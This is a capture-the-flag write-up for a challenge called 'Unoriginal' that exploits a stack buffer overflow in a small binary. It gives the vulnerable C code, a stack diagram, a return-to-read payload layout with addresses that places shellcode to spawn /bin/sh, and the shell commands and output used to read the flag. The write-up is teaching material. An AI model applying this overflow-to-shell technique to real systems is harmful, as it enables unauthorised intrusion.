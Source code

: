 # Unoriginal (RE, 100 pts)

In this challenge we're given a binary and asked to exploit it. Analyzing the binary, it turns out to be very simple:

    void func() {
	    char buf[17];
	    read(stdin, buf, 256);
	}

    int main() {
	    puts("Hack the planet!");
		func();
		return 0;
    }

So obviously, this is a stack buffer overflow. Now, all we have to do is to inject some shellcode and overwrite the return in func(), right? Well as the following stack diagram shows, if we input more than 17 chars, the next 4 bytes correspond to a memory address we can jump to directly. If only we knew the exact address of the top of the stack right now, we could simply write [17 bytes padding] [ptr to shellcode] [shellcode] and get a shell. 

    void func() {
        char buf[17]; 
        read(...)   <-- break here
    }

    Stack layout:

	+---+----
	|???| [17 bytes for buf]
	|???| [return_ptr from func back to main()]
	|???| ... [main local variables]
	|???| [return_ptr from main back to _libc_start_main]

However, I wasn't sure how to locate the position of the stack in memory. So I decided to write to a fixed memory location in the .dynamic segment, by returning to a call to read(): This means our first 256 bytes will contain a return-to-read@plt address, then 3 arguments for the read. when read is called, 21 bytes will be read from stdin.

After reading these 256 bytes and overwriting func()'s return address, execution will have passed from `func` to `read@plt`. So, after the first 256 bytes, we will pass in exactly 21 bytes of shellcode to be read by that call to read(). After reading these 21 bytes, execution will pop over to our next stack address, which exexcutes our shellcode, resulting in a call to `execve("/bin/sh", 0, 0)`.

At this point, all input will be handled by `sh`, so we can start issuing commands directly to stdout, such as enumerating the user files with `find /home`.

    [17 bytes]     padding
	0x80482f0      address of read@plt
	0x8049640      static memory to write to; this is located in the .dynamic segment. execution will return to here after read() exits
	0              first arg to read: stdin
	0x8049640      second arg to read: location to read to
	21             third arg to read: number of bytes
	[padding]      pad out to 256 bytes
	[shellcode]   
	"find /home\n"
	"cat /home/asdf/flag.txt"

Note that I send some instructions directly to stdout; we could also easily set up a command loop with something like `while True: stdout.write(raw_input()); stdout.flush();`. Either way, we find that there exists `/home/asdf/flag.txt`, so issuing the command `cat /home/asdf/flag.txt` gets us the flag `flag{youtube.com/watch?v=YBm962rQ9XI}`

	/home
	/home/asdf.tar.gz
	/home/ubuntu
	/home/ubuntu/.bashrc
	/home/ubuntu/.bash_logout
	/home/ubuntu/.ssh
	find: `/home/ubuntu/.ssh': Permission denied
	/home/ubuntu/.cache
	find: `/home/ubuntu/.cache': Permission denied
	/home/ubuntu/.profile
	/home/ubuntu/.bash_history
	/home/ubuntu/.viminfo
	/home/asdf
	/home/asdf/.bashrc
	/home/asdf/.bash_logout
	/home/asdf/flag.txt
	/home/asdf/.profile
	/home/asdf/unoriginal
	/home/asdf/pwn_serv.conf
	/home/asdf/.bash_history
	/home/asdf/.viminfo
	flag{youtube.com/watch?v=YBm962rQ9XI}

[Full Solution](unoriginal.py)
